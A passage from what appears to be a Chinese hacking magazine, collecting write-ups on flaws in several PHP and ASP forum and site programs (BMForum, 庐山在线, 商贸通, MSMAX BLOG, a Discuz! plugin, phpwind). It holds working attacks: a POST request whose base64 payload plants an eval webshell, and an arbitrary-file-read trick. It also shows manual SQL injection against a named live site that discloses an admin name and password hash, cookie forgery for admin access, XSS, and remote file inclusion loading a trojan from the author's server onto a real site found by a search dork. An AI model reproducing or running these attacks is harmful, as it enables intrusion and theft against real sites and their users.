$online_user[] = "<?php //$prioption|$username|$timestamp|$ip|$f|$forumid|$browseinfo|$osinfo|t|$filename|$logonutnum|$prioption\n";
$new_online_user = implode("", $online_user);
} else {
if ($rcordosbr) {
$browseinfo = browseinfo();
$osinfo = osinfo();
}
$new_online_user = "<?php //$prioption|$username|$timestamp|$ip|f|$forumid|$browseinfo|$osinfo|t|$filename|$logonutnum|$prioption\n";
//构造要写入的内容
}
big_write($onlinefile, $new_online_user);
//写入文件
}
```

查看`big_write`函数可以知道，貌似是`$ip`写入文件`$onlinefile`了。`$onlinefile`为`/datafile/online.php`，嘿嘿，写的东西是被解析的哟！前面的`<?php //`把代码都注释了，不过没关系，我们的`$ip`被过滤了`'`和`\`等GPC字符，但是如果提交IP为`?><?phpinfo();?>`就可以执行PHP代码了！但是很不幸，如果在我们之前很多人访问的话会写入如下的信息：

```php
<?php //...
```

### 图1 报错信息

```php
<?php //...

<?php //..?><?phpinfo();?>
```

最终结果是报错，如图1。但是很明显，这样的代码是有缺陷的，这里的过滤方式是不能阻止跨站脚本或者其他类型的二次攻击的。我只是粗略地读过几个文件的代码，如果深入下去一定会有有趣的发现的！而且官方固执地采用`<?php //`防止PHP代码执行，这种方式本身就是有缺陷的，可以被绕过，不解中。

通向shell的路不止一条，继续其他的漏洞吧！在`bmbcode.php`中我看到了如下很有意思的代码：

```php
@include_once('datafile/cache/bmbcode.php'); //包含datafile/cache/bmbcode.php文件
if ($tcode_count > 0) {
foreach ($tcode_item as $key=>$value) {
//循环取得tcode_item成员的内容并给$value['refrom']赋值
if ($value['enable'] == 1) {
$value['refrom'] = base64_decode($value['refrom']); //将$value['refrom']内容进行base64解码
$value['reto'] = base64_decode($value['reto']);
$tcode_item[$key]['eg'] = preg_replace($value['refrom'], $value['reto'], $value['example']); //进行preg_replace正则匹配，注意变量是从哪来的
} else unset($tcode_item[$key]);
}
}
```

这里可爱的地方很多，最诱人的是`preg_replace`函数，如果可以控制这个函数的正则表达式和后面的第二个参数，我们就可以借助这个函数执行PHP代码。在这里`preg_replace`函数的参数是2个变量，跟踪这两个变量看它来自哪里，就在它上面的代码，呵呵！

```php
foreach ($tcode_item as $key=>$value) {
if ($value['enable'] == 1) {
$value['refrom'] = base64_decode($value['refrom']);
$value['reto'] = base64_decode($value['reto']);
```

原来来自于`$tcode_item`这个二维数组啊！譬如`$tcode_item[1]['enable']=1`就可以使`$value['enable'] == 1`了！但是`$tcode_item`是不是我们可以控制的呢？看到`@include_once('datafile/cache/bmbcode.php')`，根据这段代码我们就可以猜到`$tcode_item`很有可能是从这儿来的，但是为什么要加个`@`呢，我们也可以想到是抑制PHP产生错误的。为什么好好的要抑制错误呢？原来当`include_once`的参数不存在的时候就会产生一个错误！呵呵，如果`include_once`的参数，也就是`datafile/cache/bmbcode.php`不存在，不仅会产生错误，还会让我们得到shell哦！如果`datafile/cache/bmbcode.php`这个文件不存在，我们就可以代替`datafile/cache/bmbcode.php`向程序提供`$tcode_item`这个变量了！如果Register Globals为On的话，我们直接提交变量就可以；如果不存在的话也不要着急，蓝色魔法为我们提供了武器，在`Global.php`中有如下的代码：

```php
if ($mqgpc == 0) {
  //如果GPC=off
  if ($rggps == 0) {
    @extract(addsd($_SESSION), EXTR_SKIP);
    // 将几个系统数组的值注册成全局变量，如果已经存在就跳过
    @extract(addsd($_POST), EXTR_SKIP);
    @extract(addsd($_GET), EXTR_SKIP);
  } else {
    @extract(addsd($_SESSION), EXTR_OVERWRITE);
    // 将几个系统数组的值注册成全局变量并且强行覆盖已经存在的
    @extract(addsd($_POST), EXTR_OVERWRITE);
    @extract(addsd($_GET), EXTR_OVERWRITE);
  }
} else {
  @extract($_SESSION, EXTR_SKIP);
  @extract($_POST, EXTR_SKIP);
  @extract($_GET, EXTR_SKIP);
}
```

无论是什么环境，蓝色魔法都会帮我们注册变量的！既然蓝色魔法为我们提供了一切，我们就来享受这一切吧！只要提供一个`tcode_item`数组就可以了哦！目的是构造`$value['refrom']`为`/ie`，`$value['reto']`为要执行的PHP代码内容。当然在构造具体数据的时候，我们还要看到`$value['refrom'] = base64_decode($value['refrom']);`这句代码，我们必须先将`//ie`这个正则表达式和后面提交的PHP代码先`base64_encode`一下！我构造的一个POST具体数据包如下：

```http
POST /bmbcode.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: fr
Referer: http://bbs.52pal.com/
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: bbs.52pal.com
Content-length: 181
Connection: Keep-Alive
Cookie:
tcode_count=3&tcode_item[1][enable]=1&tcode_item[1][refrom]=Ly9pZO==&tcode_item[1][reto]=ZnB1dHMofG9wZW4oJ2RhdGFmaWxlL2xvdmVqbmMucGhwJywndysnKSwnPD9ldmFsKCRfUE9TVFtjbWRdKT8+Jyk7
```

看到了吧！`ZnB1dHMofG9wZW4oJ2RhdGFmaWxlL2xvdmVqbmMucGhwJywndysnKSwnPD9ldmFsKCRfUE9TVFtjbWRdKT8+Jyk7`就是`fputs(fopen('datafile/lovejnc.php','w+'),'<?eval($_POST[cmd])?>');`的Base64加密后的东西！提交成功后会在`datafile`目录下生成一个`lovejnc.php`。如果你想针对其他的论坛测试，可能先要访问下`datafile/cache/bmbcode.php`看是否存在；如果存在的话，那么可能变量已经被正确初始化了，是不是还存在漏洞就不好说了！不存在的话，又是最新的5.5版本的话，就可以拿webshell了哦！将上面的`bbs.52pal.com`和`/bmbcode.php`替换成实际的环境，用nc提交给服务器，如果成功，就可以得到一个`datafile/lovejnc.php`一句话后门哟！如图2。

唉，又有限制，不过有意思的漏洞不止这个哦！继续吧！首先来看`messanger.php`中的一个函数：

```php
function attach_upload($attach, $source, $attach_size)
{
  ...
  if (@copy($attach, $source)) {
    // 将$attach文件拷贝到$source
    $attach_saved = true;
  } elseif (function_exists("move_uploaded_file")) {
    if (@move_uploaded_file($attach, $source)) {
      $attach_saved = true;
    }
  }
  ...
}
```

有个`copy`哦！嘿嘿，如果`copy`的两个参数是可以控制的，我们就可以任意拷贝文件了呢，据说还有人这样留后门哦！看看蓝色魔法给我们留后门没有！`copy`的参数来自于`attach_upload`的参数，在`messanger.php`中就有调用这个函数！

```php
$upload_aname = "upload/{$monthdir}pm{$userid}_{$timestamp}.{$currentext}"; //构造$upload_aname
$upload_bname = "{$monthdir}pm{$userid}_{$timestamp}.{$currentext}";
attach_upload($FILE_URL, $upload_aname, $FILE_SIZE);
```

那么`$FILE_URL`和`$upload_aname`来自哪里呢？继续向上有如下代码：

```php
$FILE_URL = $_FILES['attachment']['tmp_name'];
// 将$_FILES变量的内容赋给$FILE_URL等，这个时候$_FILES已经不可信了
$FILE_NAME = $_FILES['attachment']['name'];
$FILE_SIZE = $_FILES['attachment']['size'];
$FILE_TYPE = $_FILES['attachment']['type'];
```

看来第一个参数来自`$_FILES['attachment']['tmp_name']`，也就是源文件的地址来自`$_FILES`变量，是上传文件时产生的变量，一般是上传时由系统产生的！没搞头了么？嘿嘿！看我在文章中间贴出来的一段代码：

```php
if ($mqgpc == 0) {
  if ($rggps == 0) {
    @extract(addsd($_SESSION), EXTR_SKIP);
    @extract(addsd($_POST), EXTR_SKIP);
    @extract(addsd($_GET), EXTR_SKIP);
  } else {
    @extract(addsd($_SESSION), EXTR_OVERWRITE);
    @extract(addsd($_POST), EXTR_OVERWRITE);
    @extract(addsd($_GET), EXTR_OVERWRITE);
  }
}
```

# 新洞练练看

```php
} else {
    @extract($_SESSION, EXTR_SKIP);
    @extract($_POST, EXTR_SKIP);
    @extract($_GET, EXTR_SKIP);
}
```

如果我们不提交附件，在 GET 或者 POST 甚至 COOKIE 里构造这样一个变量：$_FILES['attachment']['tmp_name']，想想效果会如何呢？呵呵！可以确定的是 copy 函数的源文件我们可以控制了，现在看看目标文件，是由如下代码控制的：

```php
$upload_aname = "upload/[$monthdir]pm{$userid}_{$timestamp}_{$currentext}";
```

看来我们能搞鬼的只能是 $currentext 了！看代码：

```php
$extcount = count($available_ext);
$is_ext_allowed = 0;
for ($i = 0; $i < $extcount; $i++) {
    $currentext = $available_ext[$i]; // 检查文件后缀是否在已经允许的几个后缀之间，不规则不允许上传
    if (eregi("\.{$currentext}$", $FILE_NAME)) {
        $is_ext_allowed = 1;
        break;
    }
}
```

不幸，$currentext 不是我们可以控制的，但是没关系，我们已经可以把服务器上的任意文件复制到程序指定的其他地方了，什么文件？config.php 如何呢？具体方法就是进入发短信的地方，也就是 messanger.php，然后给自己发个短信，选择附件哦！这时候抓包！选择自己是因为这样可以避免被别人知道我们在做什么！如图3、图4。抓好了数据包，该去得到其他文件的内容了，现在我们需要改造下数据包。

首先把 POST 过去内容中的 attachment 改成 attachments，这样程序就接收不到 $_FILES['attachment'] 变量啦，如图5。然后呢，就是构造我们自己的邪恶 $_FILES 了！将 POST 的开头改成如下内容：

```http
POST /bmf_2007_55_stable/bmf/messanger.php?_FILES[attachment][tmp_name]=datafile/config.php&_FILES[attachment][name]=1.txt&_FILES[attachment][size]=100&_FILES[attachment][type]=text/plain HTTP/1.1
```

其中 datafile/config.php 是我们要查看的文件内容！如图6，修改好之后，因为我们没有改变 POST 的数据大小，所以不用改其他信息，直接 POST 给服务器，然后就可以收短信，也就是查看文件内容了，如图7，怎么样，很爽吧！在上传文件的地方有相同的漏洞，就留给各位去练习了。

但是依然很不爽，我在测试官方的时候总不成功。大家看上面的取得变量怎么来的，要求 GPC=off、register_globals=off 才会执行到 @extract($_GET, EXTR_SKIP)；其他的时候都是 @extract(addsd($_GET), EXTR_SKIP)；而我们的 $_FILES 变量在开始的时候会被初始化为空的，所以不能被覆盖了，但是一定的条件下如 GPC=off 和 register_globals 为 off 的时候，这个漏洞还是可以利用成功的！

到这里，对于蓝色魔法论坛的几个简单的漏洞就给大家说完了，尽管都是需要利用条件，但在深层次的肯定有更多、更有意思的漏洞，如果能给各位带来一点点思路，文章就有价值了！在这废话几句，其实对于漏洞，各个论坛的反映都不一样，态度决定一切，在漏洞方面也是这个道理！

> **编辑点评：**
> 越来越多的方法被发现并利用，看来程序员要想自己的程序不被攻破，不多个心眼是不行的，一个正统的程序员或者测试人员，他怎么可能会想到接收到的 IP 地址都会被人伪利用呢，如此看来：知识，还是多了解一些得好！

## 注入、跨站：庐山在线 V2.0 漏洞利用

樱花浪子[I.S.T]

# 从本文你可以学到：

- 庐山在线注入漏洞分析
- 庐山在线跨站漏洞分析
- 实战演习

由于近期买了个空间，去“源码之家”看看有没有什么好程序，无意中发现一套整站 ASP 程序（庐山在线 v2.0 最新版的），功能可谓是挺强大的，可惜漏洞也不少，下面和大家小谈一下存在的漏洞。

## 一、注入

存在的漏洞文件为：Article_Class.asp 和 Photo_class.asp。先看看 Article_Class.asp 文件。30 行的代码引起我的注意，代码如下：

```asp
<%
dim sqlRoot,rsRoot,trs,ClassID,TitleStr
sqlRoot="select C.ClassID, C.ClassName,C.RootID,L.LayoutFileName,L.LayoutID,C.Child, C.ParentPath From ArticleClass C inner join Layout L on C.LayoutID=L.LayoutID where C.ParentID=" & ClassID & " and C.IsElite=True and C.LinkUrl='' and C.BrowsePurview>=" & UserLevel & " order by C.OrderID"
set rsRoot= Server.CreateObject("ADODB.Recordset")
rsRoot.open sqlRoot,conn,1,1
%>
```

发现上面定义了 sqlRoot、rsRoot、trs、ClassID 等为变量，可是在数据库查询却是 C.ClassID 这个字段。继续跟踪，在 354 行发现了如下代码：

```asp
set trs=conn.execute("select top 4 C.ClassID,C.ClassName,C.RootID,L.LayoutFileName,L.LayoutID From ArticleClass C inner join Layout L on C.LayoutID=L.LayoutID where C.ParentID=" & rsRoot(0) & " and C.IsElite=True and C.LinkUrl='' and C.BrowsePurview>=" & UserLevel & " order by C.OrderID")
```

在这里发现的是 C.ClassID 这个变量值，继续往下看 359 行代码：

```asp
set trs=conn.execute("select ClassID from ArticleClass where ParentID=" & rsRoot(0) & " or ParentPath like '%" & rsRoot(0) & ",%' and Child=0 and LinkUrl='' and BrowsePurview>=" & UserLevel)
```

呵呵，这回发现对 ClassID 变量没有什么过滤就进入数据库查询了，而且这个变量值可以直接从地址栏上注入。对我们菜鸟挺方便的。由于 Photo_class.asp 文件里的代码和 Article_Class.asp 基本上一样，我就不把代码贴出来了。

## 二、跨站

由于这个程序访问者可以对管理员发的文章进行评论，那么就试试有没有跨站吧！但是查看代码知道在 OICQ、姓名等地方都做了长度限制，还好对 MSN 没有做长度限制，所以直接在 MSN 里打上 `<script>alert('hack')</script>`。

登录后台却发现没有成功，难道不存在漏洞？看了一下第六期刺猬的跨站文章，又问了一下小天，再看看后台显示的源代码：

```html
<a href='UserInfo.asp?UserID=14' title='姓名：hacklu
信箱：fsafq@163.com
Oicq:
Icg:
Msn: <script>alert("hack")</script>
IP: 60.30.50.14
主页：' target='_blank'>hacklu</a>
```

终于找到答案了，原来是姓名、信箱等信息还有跨站代码是被 “title” 后面的单引号给控制了，也就是提交的信息被当成文本了。我们要在提交的信息前面加上一个单引号，把前面的单引号给闭合了就 OK 了。再次在 MSN 的地方写：`'<script>alert('hack')</script>'`。如图1所示。这样管理员在后台查看评论的时候就会执行我们的代码，如图2所示，嘿嘿，管理员中招了吧。

## 三、测试官方网站

跨站是在我自己的空间测试的，下面就对其官方网站测试一下。官方网站为：www.lushanhao.com，注入地址为：http://www.lushanhao.com/Article_Class.asp?ClassID=51

提交 AND 1=1 和 AND 1=2 返回了图3和图4的结果。

由于我已经知道数据库是 ACCESS 的了，就不做判断语句了。直接提交：And (Select Count(*) from Admin)>=0，返回了图3的页面。说明存在 Admin 这个表，接着提交：And (Select Count(username) from Admin)>=0 和 And (Select Count(password) from Admin)>=0，都返回了正常，说明存在 username、password 这两个列，由于源码我都看过了，所以知道数据库里面是存在这样的表名和列名的。

表名和字段名都猜出来了，下面就猜猜字段的长度吧。提交：and 1=(select count(*) from admin where len(username)>0) 返回正常，这句是猜字段内容的长度，把后面的“0”改成 1、2、……当改成“6”的时候返回错误，如图5。说明 username 里的长度应该是 6 了，接着用同样的方法猜 password 里的字段长度。

继续猜用户名和密码，提交：and 1=(select count(*) from admin where left(username,1)='a')，返回错误，再把“a”改成 B、C……最后猜用户名为：davezc，把 username 换成 password 用同样的方法猜就可以了。密码为：0240afebcaeb6cfe，去 MD5 的网站破解一下没有成功，我也没耐心继续破解了。但是注入和跨站还是真实存在的，最后和这个程序的作者联系了一下。

本文没什么技术含量，只是简单说了下这套程序的两个漏洞，最后温习了一下 ASP 手动注入。希望能给菜鸟朋友们带来帮助，文章不足之处还望高手指正，欢迎大家来 NOHACK 论坛和我交流。

## 编辑点评：

> 浪子我早就认识，开始的时候也和很多人一样，认为找漏洞是很难的，都是牛人才能够做到的事情，自己肯定不行；后来经过自己努力学习，认真观摩杂志上每次刊登的文章，也慢慢地能找一些程序的漏洞了，现在越来越痴迷，希望他以后能带给我们更多的文章。喜欢 WEB 漏洞的朋友可以自己试着来找一些漏洞了，其实不难的！你肯定能做到，相信你自己！

# 商贸通 2006 后台验证 COOKIE 欺骗

花非花[L.S.T]

# 从本文你可以学到：

- 商贸通 2006 后台 COOKIE 欺骗利用
- 商贸通 2006 后台拿 WEBSHELL 的方法

首先要感谢老大 Lenk，在我学习过程中，不断地给予帮助。

测试版本：商贸通 2006 地方门户版

商贸通是一款基于 ASP 的网站程序，功能强大，界面、安全性都是比较可以的，就是在后台验证的时候出了不该有的毛病，导致我们可以绕过后台认证，直接进入后台管理，相信这样的毛病会深受广大黑友的喜爱。

出现问题的文件是在 admin 目录下的 Chkadmin.asp 文件。我们先来看看其验证出问题的核心部分吧。

```asp
nick=replace(trim(request("nick")),"'","''") '对输入的用户名字过滤单引号,防注入
password=replace(trim(request("password")),"'","''") '对输入的密码过滤单引号,防注入
password=md5(password) '采用MD5加密,大家最恨的
set rs=server.createobject("adodb.recordset")
sql="select * from SMT_admin where SMT_password='"&password&"' and SMT_nick='"&nick&"'" 'SQL 查询语句,获取所有管理员的用户名和密码
```

```asp
rs.open sql,conn,1,1
if not(rs.bof and rs.eof) then
    if password=rs("SMT_password") and nick=rs("SMT_nick") then '如果用户提交上来的password,admin和查询所得的smt_password,smt_nick(用户名字段)有完全相同的
        Response.Cookies("adminID")=rs("SMT_id") '那么就把管理员的smt_id,smt_nick,smt_flag的相应字段值cookies的形式存储在客户端
        Response.Cookies("admin")=rs("SMT_nick")
        Response.Cookies("adminflag")=rs("SMT_flag")
        response.redirect "manage.asp" '只要用户提交的cookies值和管理员的smt_id,smt_nick,smt_flag这三字段的值一致,就redirect到manage.asp(管理界面)
    else
        call Error
    end if
else
    call Error()
end if
```

漏洞分析算是结束了，那么现在就要来实战一番了。用到的工具是老兵大哥的欺骗工具：MyBrowser.exe，在地址栏输入 `http://测试网站/admin/manage.asp`，并在地址栏上方把“设置自定义按钮”按上，修改 cookies 的值为：`adminID=5; admin=admin; adminflag=1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1;`

（默认管理员的用户名为 admin，SMT_ID 为 5，adminflag 为 1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1）。然后点击“连接”按钮（注意：在此过程中“设置自定义按钮”必须一直处于按下状态），管理界面就出来啦！如果一次不成功，就再次在地址栏里输入 `http://测试网站/admin/manage.asp`，继续点连接，一般两三次就能成功，如图1。

# 新洞练练看

成功进入管理界面者，拿 WEBSHELL 是一件很容易的事情，后台可以修改上传文件类型、数据备份、数据恢复，以及 eWebEditor 等功能，搞过动网和 eWebEditor 的应该都能拿下 webshell 的，建议大家，COOKIE 欺骗完以后，在里面建立一个管理员（在管理员管理那边可以设置，添加完管理员以后要记得设置权限，当然是把必要权限都分配出来，全部权限也可），然后退出来登录、再操作，这样比较方便。

（请记住，为了不给自己带来不必要的麻烦，一定记得在搞完以后把管理员去掉）。我这里就介绍一下其中一种拿 WEBSHELL 的方法吧，其他的，小菜在入侵的时候可以自行演练，什么都跟你讲了，不一定有好的效果，在入侵中不断演练，增加经验是最好的学习方法。我这里讲的是通过 EWEBEDITOR 的漏洞拿 WEBSHELL，懂的可略过。

选择样式管理，再点击“设置”按钮，然后随便选个上传类型的文本框，输入我们要的上传类型：asapp、cer、asa 等；然后提交（图3）。

在图2中能看到，每个样式都有预览，我们点击预览按钮，如图4。

会出现和图4差不多的内容，选择“上传其他文件”按钮（看黑圈），我们在这里选择 .asp 后缀的马（对应我们在上传文件类型那边设置的可上传后缀），然后提交，如图5。

选择下面的“预览”按钮，那个 huahua.asp 就变成一个链接了，如图6。

点击这个链接，我们上传的马就会跑出来了。文章到此结束，如果有看不懂的，我还做了动画，可以在《黑客手册》光盘里找到，应该都能看懂。在这里感谢土豆叔，哈哈，一个很慈善的老头（土豆：我有这么老吗？）。

（文章中用到的 MyBrowser 收录在光盘中）

> **编辑点评：**
> COOKIE 欺骗是众多漏洞中利用最为方便快捷的了，只要找老兵的自定义 COOKIE 浏览器，构造符合要求的 COOKIE 就可以了；进到后台，配合众多的上传设置，上传个马儿也应该不是难事，不熟悉的真的要加油了！

# 浅谈 MSMAX BLOG 安全性

从本文你可以学到：

- 1、MSMAX BLOG 的注射漏洞分析
- 2、漏洞的修补

MSMAX BLOG 是一款个人博客系统，页面非常整洁漂亮，而且具备了大部分 Blog 的功能，并且还有一个叫“回复计划密码”的功能，比较新鲜，可谓是麻雀虽小，五脏俱全啊。我们通过“MSMAX All Rights Reserved”关键字可以查询到使用这套系统的网站。可惜写这套系统的程序员一时疏忽，导致了一些安全问题的出现，下面我就给大家谈谈其安全性问题。

show_article.asp 这个文件的作用是显示所有文章的功能，可是在这里并没有过滤参数就直接操作了数据库，从而出现了比较严重的问题，也是比较经典的注入漏洞代码，代码和我的注释如下：

```asp
dim articleid, articleRs, articleSql
articleid=request.querystring("articleid")
'没有过滤
if articleid="" then
response.Write "<script>alert('参数错误!');history.back();</script>"
else
session("articleid")=articleid
hitsql="update article set hits=hits+1 where articleid="&session("articleid")
db.execute(hitsql)
'没有过滤就直接进行数据库的更新操作
set articleRs=server.createobject("adodb.recordset")
articleSql="select * from article where articleid="&articleid
'没有过滤就进行了数据库查询操作，导致漏洞的出现
articleRs.open articleSql,db,1
```

```asp
<!-- 上一篇:<a href="show_article.asp?articleid=<%=articleRs("articleid")%>"><%=articleRs("title")%></a>--><br/>
'这里是显示 URL 地址的
<%
else
response.Write "上一篇:&nbsp;没有了<br/>"
end if
articleRs.moveprevious
articleRs.moveprevious
if articleRs.bof then
response.Write "下一篇:&nbsp;没有了<br/>"
else
%>
<!-- 下一篇:<a href="show_article.asp?articleid=<%=articleRs("articleid")%>"><%=articleRs("title")%></a>-->
<%end if
articleRs.movenext%>
```

从上面我们还可以看到，articleid 这个参数是在 URL 地址中直接显示了，所以出现的注入漏洞的攻击方式是可以在 URL 地址栏内进行的，如图 1 和图 2 所示就证明了我们的分析。

show_plan.asp 文件的作用是用于显示计划的，它与 show_article.asp 文件存在着同样的问题，代码如下：

```asp
planid=request.querystring("planid")
session("planid")=planid
```

```asp
set planRs=server.createobject("adodb.recordset")
planSql="select * from plan where planid="&planid
planRs.open planSql,db
......省略代码......
planid=request.querystring("planid")
set planRsed=server.createobject("adodb.recordset")
planSqled="select * from planed where planid="&planid
planRsed.open planSqled,db%>
```

search.asp 这个文件是用来搜索 Blog 中的数据的，在这里程序员疏忽了参数，没有过滤就进行了数据库查询。存在问题的代码有：

```asp
dim keyword, flag
flag=1
keyword=request.form("keyword")
'直接获得了参数
if keyword="" then
response.write "<script>alert('师兄不能为空哦!');history.back();</script>"
else
dim rs,strsql
set rs=server.createobject("adodb.recordset")
strsql="select * from article where body like '%"&keyword&"%' or title like '%"&keyword&"%' order by subdate desc"
'没有过滤就进行了数据库查询工作，从而导致了注入漏洞的出现
rs.open strsql,db,1


```

八期中已经有人给我们介绍了搜索方面的漏洞了，在这里我就不班门弄斧了。其实它和我们平时的注入漏洞没有什么区别，只是换了个地方罢了。

上面的漏洞都是因为参数没有被过滤而出现的，比较常见，适合一些新手学习代码的安全性分析工作。在这里都是程序员的疏忽，其他地方都过滤得非常干净，特别是跨站方面，根本找不到一点机会。这里的解决办法也很简单，用正则表达式把所有的数据库操作关键字全部过滤，而且一些危险字符也过滤，比如单引号等等，这样就没有机会再注入了。
上面就是我简单分析的 MSMAX BLOG 的安全性，这里目的并不是去攻击，而是通过攻击的学习，来找到防御的办法，这样我们才会有进步。

**编辑点评：**

这个文章很适合新手来学习代码安全分析，认真看代码，思路对了，就会发现，真的不难。

# DZ! 插件也有漏洞

IceSkySI@I.S.T

从本文你可以学到：

- 1、DZ! 插件 wish.php 的漏洞分析
- 2、在 Google 上查找目标网站
- 3、实例演示漏洞的利用

晚上朋友 QQ 上发来消息说，DZ! 暴漏洞了，并且发了一个链接过来。好久没看到 DZ! 暴漏洞了，比较新鲜，决定好好看看是怎么回事。

就给我的链接地址看，有问题的是 wish.php 这个文件上，貌似一个远程包含漏洞，看样子是 discuz_root 这个变量出的问题。

看了下那个站的版权是 DZ! 4.0 的，难道 4.0 的也有问题？去官方查了下，原来这个 wish.php 不是官方的文件，是另外的一个叫作祈愿池的插件，貌似支持 DZ! 从 DZ! 2.0 到 DZ! 5.0 都能支持。去 Google 上搜索了下，还真有很多人用这个插件，看来还是有利用的空间。

## 一、漏洞产生分析

既然知道是 wish.php 文件的 discuz_root 这个变量的问题，直接打开 wish.php 看代码，在开始我们就看到这样的代码：

```php
<?
require_once './include/common.inc.php';
require $discuz_root.'./include/discuzcode.func.php';
$discuz_action = 227;
......省略代码......


```

可以看到，问题就出在这里了。看到 `require $discuz_root.'./include/discuzcode.func.php';` 这句，就可以明白了，前面并没有对 `$discuz_root` 这个变量赋值，看来我们可以直接控制这个变量，可以构造我们的 shell 来利用了。

## 二、构造 Shell 方法

看到前面的分析，我想很多朋友应该知道怎么利用了。对，就是在我们自己的主机上构造一个 PHP 木马，然后把路径传给这个 `$discuz_root` 就可以了，举个例子说明下：

- 1、前面看到 wish.php 这个文件 require 的路径是 `$discuz_root.'./include/discuzcode.func.php'`，那么如果我的服务器地址是 `http://www.1steam.cn`，我在这个主机下建一个 include 文件夹，再把木马写在这个文件夹的 discuzcode.func.php 里，然后直接请求目标主机：`http://www.targt.com/bbs/wish.php?discuz_root=http://www.1steam.cn`，就可以得到一个 WebShell 了。
- 2、另外还有一个构造方法，不用上面那么麻烦，比如我们把改了后缀为 .txt 的 PHP 木马（1stphp.txt）放在我们自己的服务器上，地址为：`http://www.1steam.cn/1stphp.txt`，那么现在只要这样请求目标主机地址：`http://www.targt.com/bbs/wish.php?discuz_root=http://www.1steam.cn/1stphp.txt?`，就可以得到一个 WebShell 了。

## 三、实战演示

前面是漏洞的产生原因和 Shell 的构造方法，现在按照这样的方式找一个网站演示一下。首先在 Google 上搜索，为了更加准确地找到符合要求的目标，我们使用这样的关键字：`inurl:wish.php powered by Discuz!`。说明下，这个关键字的意思是搜索有着 wish.php 的 DZ! 网站，还蛮准的，看下我们找到了 760 个符合要求的网站，如图 1。

我们随便找一个来试下，打开“cc 论坛—祈愿池”这个网站，地址为：`http://7v6.net/bbs/wish.php`，OK，我们来试试。

首先把我平时使用的一个 PHP 木马改名为 1stphp.txt 放在我的服务器上，地址是 `http://www.1steam.cn/1stphp.txt`。按照前面我们的分析，现在直接构造这样的地址来得到 WebShell，地址为：`http://cc.7v6.net/bbs/wish.php?discuz_root=http://www.1steam.cn/1stphp.txt?`。哈哈，看图 2，成功得到 WebShell。

我们成功得到一个 WebShell，而且我们注意到了这个论坛的 DZ! 版本如图 3。

可以看到，我们刚才测试的论坛是 DZ! 5.0.0，知道问题的严重性了吧。各位站长注意了，使用这个插件尽快修补，以免遭不测。

## 四、修补方法

修补方法很简单，我看到官方提供修改后的许愿池插件修补了这个问题，只要把 `$discuz_root` 修改为 `DISCUZ_ROOT` 全局变量就好了。

## 五、后话

DZ! 的安全性经过各大牛人的检测和研究，现在的安全性已经很好了，很少出现一些明显的 SQL 或者 include 漏洞。但是很多外部人员写的插件的安全性就不能保证了，所以，各位站长安装插件的时候一定要注意了。

**编辑点评：**

DZ! 本身的安全性大家有目共睹，但是它的一些插件的代码写得并不理想。就作者说到的这个 wish.php 文件来看，除了作者说到的“包含”漏洞外，还有几处 SQL 注射漏洞，大家可以自行研究。
# phpwind 漏洞分析

3f1d7e0fe93cf3a1721618958e5de77f

从本文你可以学到：

- 1、phpwind 漏洞产生的原因
- 2、构造符合条件的语句

phpwind 是国内一家 php+mysql 架构的论坛，安全性还不错，除了那个 IP 漏洞也好歹有一段时间没有出过漏洞了。听说最近刚出了新版本，闲得无聊就从网上 down 了一份下来读读，读了几个文件就真的发现了一个安全漏洞，漏洞还不算小哦！

说是 phpwind 的漏洞还真有点委屈它，但是如果程序员真的注重安全的话也就不会犯这个错误了！我们来关注今天的主角吧，就是在 serach.php 中一个名字叫 uids 的变量（其实其他变量也有这个问题，但是这里是以 uids 这个变量作为例子，其他的大家自己分析哦），这里首先把关键的代码流程列出来，大家注意看哦！

```php
unset($uids);
// 用 unset 处理 uids 变量
...
}elseif ($pwuser){
// 如果 pwuser 不为空的话
if (!str_replace('*','',$pwuser)){
Showmsg('illegal_author');
}
$pwuser = str_replace("%", '\%', $pwuser);
$pwuser = str_replace("_", '\_', $pwuser);
$pwuser = addslashes(trim($pwuser));
$pwuser = str_replace('*', '_', $pwuser);
$query=$db->query("SELECT uid FROM pw_members WHERE username LIKE '$pwuser'");
while($member=$db->fetch_array($query)){
$uids .= $member['uid'].',';
}
// 用数据库查询结果再次对 uids 处理
}
$uids ? $uids=substr($uids,0,-1) : $sqlwhere = ' AND 0 ';
$uids && $sqlwhere .= "AND t.authorid IN($uids)"; // 构造 SQL 查询语句
$query = $db->query("SELECT DISTINCT t.tid FROM $sqltable WHERE $sqlwhere $orderby $limit");
```

```php
$sqltable WHERE $sqlwhere $orderby $limit");
// 对 SQL 查询的处理
```

在这之前先回顾一个 PHP 的漏洞，PHP 的 zend_hash_del_key_or_index 函数存在安全漏洞，导致通过一定手段可以绕过 unset() 函数，影响版本 php<4.3 以及 php<5.1.4 的最新版本。嘿嘿，很大部分网上的机器都是有漏洞的，毕竟谁没事总升级 PHP 啊！呵呵！太深奥的我就不讲了，原理我也不大明白，我们只要知道怎么回事就可以了！具体的漏洞介绍可以到 `http://www.ph4nt0m.org/bbs/showthread.php?s=&threadid=35382` 看看。

譬如上面的 `unset($uids)`，作者本身的意思是将 uids 这个变量初始化，但是他太依赖于语言本身了；呵呵，所以导致 uids 没有正确地初始化！uids 因为 PHP 的漏洞没有初始化，那么现在就看看能不能任意控制这个文件了哦！uids 在下面还是经过了处理的，只不过这个初始化被送到了 while 语句中，代码如下：

```php
$query=$db->query("SELECT uid FROM pw_members WHERE username LIKE '$pwuser'");
while($member=$db->fetch_array($query)){
$uids .= $member['uid'].',';
}
// 用数据库查询结果再次对 uids 处理
```

很明显，如果查询为假的话将跳过语句的执行，uids 将是不经过处理的。至于要语句为假很简单吧！将 pwuser 弄成一个不存在的就行了！然后呢，就是构造 sqlwhere 查询语句啦，pw 通过以下代码实现：

```php
$uids && $sqlwhere .= "AND t.authorid IN($uids)";
```

很简单，将 uids 直接给了 sqlwhere，然后是最后面的 SQL 语句：

```sql
SELECT DISTINCT t.tid FROM $sqltable WHERE $sqlwhere $orderby $limit


```

